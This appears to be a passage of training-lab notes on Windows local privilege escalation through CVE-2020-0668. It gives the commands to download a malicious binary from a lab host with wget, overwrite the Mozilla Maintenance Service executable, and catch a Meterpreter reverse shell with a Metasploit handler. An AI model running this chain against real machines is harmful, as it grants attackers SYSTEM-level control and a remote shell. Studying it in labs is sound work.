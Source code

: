#### Downloading the Malicious Binary
```PowerShell
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
```

```PowerShell
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

#### Running the Exploit
```cmd.exe
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
It accepts two arguments, the source and destination files

#### Checking Permissions of New File
```cmd.exe
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```
Shows the following entry for our user: `WINLPE-WS02\htb-student:(F)`

#### Replacing File with Malicious Binary
```cmd.exe
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

#### Metasploit Resource Script
Next, save the below commands to a Resource Script file named `handler.rc`
```Shell
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 8443
exploit
```

#### Launching Metasploit with Resource Script
```Shell
sudo msfconsole -r handler.rc
```

#### Starting the Service
```cmd.exe
net start MozillaMaintenance 
```

#### Receiving a Meterpreter Session
We will get an error trying to start the service but will still receive a callback once the Meterpreter binary executes.


## Vulnerable Services
